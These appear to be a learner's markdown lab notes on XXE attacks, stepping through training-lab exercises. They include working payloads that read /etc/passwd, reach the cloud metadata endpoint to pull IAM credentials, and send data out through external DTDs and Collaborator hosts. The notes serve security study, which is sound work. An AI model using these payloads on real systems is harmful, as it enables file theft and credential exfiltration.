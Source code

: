 XML external entity
- Allows attacker to interfere with application's processing of XML data.
- Allows attacker to view files on application server filesystem and to interact with any back-end or external systems that the application itself can access.

How it arise:
- Application use XML format to transmit data between the browser and server.


### Lab: Exploiting XXE using external entities to retrieve files
- If "Check stock" feature that parses XML input and returns any unexpected values in the response.
- Intercepting the **POST** request, and inserting in between XML declaration 
```
		<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
- Replace productId number as `&xxe;`
- Response should contain "Invalid product ID" follwed by contents of `/etc/passwd` file.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```

### Lab: Exploiting XXE to perform SSRF attacks
-  If "Check stock" feature that parses XML input and returns any unexpected values in the response.
- Intercepting the **POST** request, and inserting in between XML declaration 
```
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
- Replace productId number as `&xxe;`
- Response should contain "Invalid product ID: ___ followed by the response from the metadata endpoint____". [eg: latest]
- Iteratively update the URL that result in JSOAN response containing secret access key.[http://169.254.169.254/latest/meta-data/iam/security-credentials/admin]


### Blind XXE with out-of-band interaction
- "Check stock" feature that parses XML input but does not display the result.
- Can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

Attack:
- Intercepting the **POST** request, and inserting in between XML declaration.
```
 <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```
- Replace productId number as `&xxe;`
- Go to the Collaborator tab, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://Insert Collaborator payload"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
2
</storeId>
</stockCheck>
```

### Lab: Blind XXE with out-of-band interaction via XML parameter entities
- Does not display any unexpected values, and blocks requests containing regular external entities.
- Use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
Attack:
- Insert external entity definition in between the XML declaration and the `stockCheck` element. 
- Insert a Burp Collaborator subdomain where indicated.
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```
- You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

### Lab: Exploiting blind XXE to retrieve data via error messages
- Intercepting the **POST** request, and inserting in between XML declaration.
```
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a0a000b04c87262815ba1d301be00ae.exploit-server.net/exploit.dtd"> %xxe;]>
```
- Body of server 
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval; 
%exfil;
```

- Error message containing the contents of the `/etc/passwd` file.

### Lab: Exploiting XInclude to retrieve files
- Check stock and send the POST request to repeater.
- Replace the productId as
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- Error message containing the contents of the `/etc/passwd` file.

### Lab: Exploiting XXE to retrieve data by repurposing a local DTD
- Check stock and send the POST request to repeater.
- Inserting in between XML declaration 
```
<!DOCTYPE message [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
<!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```